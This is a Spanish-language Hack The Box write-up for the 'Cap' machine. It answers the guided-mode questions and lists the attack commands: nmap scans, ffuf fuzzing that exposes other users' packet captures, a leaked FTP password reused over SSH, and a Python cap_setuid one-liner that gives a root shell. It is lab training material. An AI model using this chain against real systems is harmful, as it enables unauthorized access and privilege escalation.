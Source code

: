 ```yaml
---
title: Writeup cap - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - cap
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina cap en Hack The Box.
keywords:
  - writeup cap
  - hack the box cap
  - resolución máquina cap
  - cap hack the box
  - htb cap
---
```

---------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Cap)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=P1YcpcOuPRE)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=vWwMxEkFwQo)

---

#easy #linux #nmap #ping #wireshark #ffuf #gobuster #whatweb #ssh #getcap #python #sudo #gtfobinds #tratamientotty #getcapbinariopython38

--------
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	3

2)Después de ejecutar una «Instantánea de seguridad», el navegador es redirigido a una ruta con el formato /[algo]/[id], donde [id] representa el número de id del escaneo. ¿Qué es [algo]?
	data

3)¿Puedes acceder a las exploraciones de otros usuarios?
	Si

4)¿Cuál es el ID del fichero PCAP que contiene los datos sensibles?
	0

5)¿En qué protocolo de capa de aplicación del archivo pcap se pueden encontrar los datos sensibles?
	ftp
	
6)Hemos conseguido la contraseña FTP de Nathan. ¿En qué otro servicio funciona esta contraseña?
	ssh

*La pregunta anterior es la flag*
8)¿Cuál es la ruta completa al binario en esta máquina tiene capacidades especiales de las que se puede abusar para obtener privilegios de root?
	/usr/bin/python3.8

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.245
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.245 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.10.10.245 -oN target
```

![[Cap1.png]]![[Cap2.png]]
![[Cap3.png]]
*TTL:* Maquina linux
*Puertos:*
	`21`FTP
	`22`SSH
	`80`HTPP

-----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.245/
```
![[Cap4.png]]
No nos da informacion relevante

--------
# [[FFUF]] y [[Gobuster]]

Entramos la la pagina principal
![[Cap11.png]]
con [[Gobuster]] no nos salio ningun directorio interesante, pero entrando en una de las paginas, vemos que esta el directorio /data/ y nos ponemos a enumerarlo con digitos
``ffuf -u http://10.10.10.245/data/FUZZ -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -t 64 -fs 208`` Usamos el parametro `-fs 208` ya que habia muchos falsos positivos

![[Cap7.png]]
Nos da la captura de la 0 a la 5
![[Cap12.png]]
Descargamos la 0 y la abrimos con [[wireshark]], podemos ver que informacion sensible

En ftp sacamos el usuario y contraseña nathan:Buck3tH4TF0RM3!

``ftp nathan@10.10.10.245 -p 21``
![[Cap8.png]]

--------
# Conexion por [[ssh]]

Vemos si reutiliza credenciales en [[ssh]] que en habiamos visto que estaba activo el servicio por el puerto 21

``ssh nathan@10.10.10.245 -p 22``
![[Cap9.png]]

---
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios [[getcap]] con [[Binario python3.8]]

Usamos el comando `getcap -r / 2>/dev/null` y vemos que tiene una capability en python

![[Cap14.png]]

Vamos a vamos a [gtfobinds](https://gtfobins.github.io/gtfobins/python/#capabilities), nos da este oneliner
![[Cap13.png]]
Lo adaptamos a nuestra maquina ``python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`` lo ejecutamos y ya podemos visualizar las flags

![[Cap15.png]]